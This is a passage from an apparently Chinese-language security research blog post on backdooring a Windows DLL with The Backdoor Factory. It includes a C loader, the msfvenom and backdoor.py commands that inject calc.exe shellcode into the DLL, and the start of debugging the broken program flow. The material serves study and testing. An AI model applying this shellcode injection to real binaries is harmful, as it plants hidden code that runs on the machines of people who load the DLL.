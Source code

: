 ```

void Export1()
{
	printf("[+] Export1\n");
}
```

导出函数为`Export1`

Dll加载程序 loader.exe：

```
#include <windows.h> 
typedef void(*Export)();
int main(int argc, char* argv[])
{
	Export exporttest;
	printf("[*] LoadLibrary\n");
	HMODULE hDllLib = LoadLibrary("testdll.dll");
	exporttest=(Export)GetProcAddress(hDllLib ,"Export1");
	exporttest();
	Sleep(10000);
	FreeLibrary(hDllLib);
	printf("[*] FreeLibrary\n");
	return 0;
}
```

程序执行如下图，加载testdll.dll，调用导出函数`Export1`

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-10-24/2-1.png)

使用The Backdoor Factory为DLL文件添加后门：

```
msfvenom -p windows/exec CMD=calc.exe -f raw >calc.bin
./backdoor.py -f testdll.dll -s user_supplied_shellcode_threaded -U calc.bin -a
```

再次执行loader.exe，测试如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-10-24/2-2.png)

成功执行payload，但是改变了程序流程，无法正常返回`FreeLibrary`

需要对DLL进行调试,找到出错的原因

首先生成空的跳转模板：

```
./backdoor.py -f testdll.dll -s cave_miner_inline
```

选择`.text`段

执行Loader.exe，程序一切正常，那么就是中间的payload出了问题

使用Immunity Debugger打开新的testdll.dll，找到劫持的位置，payload保存在`0x10005716`
